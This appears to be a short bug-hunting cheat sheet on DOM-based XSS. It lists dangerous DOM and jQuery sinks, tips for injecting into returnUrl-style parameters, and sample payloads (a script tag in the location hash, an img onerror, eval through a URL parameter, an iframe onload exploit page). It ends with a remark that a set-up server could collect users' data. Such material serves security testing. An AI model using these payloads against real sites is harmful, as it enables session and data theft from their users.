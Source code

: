 ▪ The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:   
`document.write()` | `document.writeln()` | `document.domain` | `element.innerHTML` | `element.outerHTML` | `element.insertAdjacentHTML` | `element.onevent`

▪ The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
`add()` | `after()` | `append()` | `animate()` | `insertAfter()` | `insertBefore()` | `before()` | `html()` | `prepend()` | `replaceWith()` | `wrap()` | `wrapInner()` | `wrapAll()` | `has()` | `constructor()` | `init()` | `index()` | `jQuery.parseHTML()` | `$.parseHTML()`

▪ Identifying Weaknesses in Input Handling:
• Look for the direct usage of these inputs in dangerous functions, such as:
  - eval(), setTimeout(), or setInterval() when passing string values.
  - innerHTML or outerHTML, which may directly render content.
  - document.write() or document.writeln().
  - addEventListener() or any function that executes JavaScript code based on user inputs.
  - As soon as you find the first link followed by a secondary link, the parameter is usually named returnurl, url, or returnpath. Inject the code javascript:confirm() into it, or look for bypass techniques.
  - Example: `?returnUrl=javascript:alert(document.domain)`

- If the application displays content based on `document.location.hash`:
  Example: 
  ```html
  http://example.com/#<script>alert('XSS')</script>
  ```

- When using `innerHTML` with unsanitized data:
  Example: 
  ```html
  <img src=x onerror=alert('XSS')>
  ```

- Using functions like `eval()` with URL parameters:
  Example: 
  ```html
  http://example.com/?input=alert('XSS')
  ```

- First, we create a regular `.txt` file, let's assume its name is `xss.txt`. Then, we write the following code inside it:
  ```html
  <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
  ```

- Next, we convert the file to an HTML file like this:
  `xss.txt -> xss.html`, and then open the file. What happens is that we can pull data remotely. So, if we set up a server, we can remotely collect a copy of the user's data.

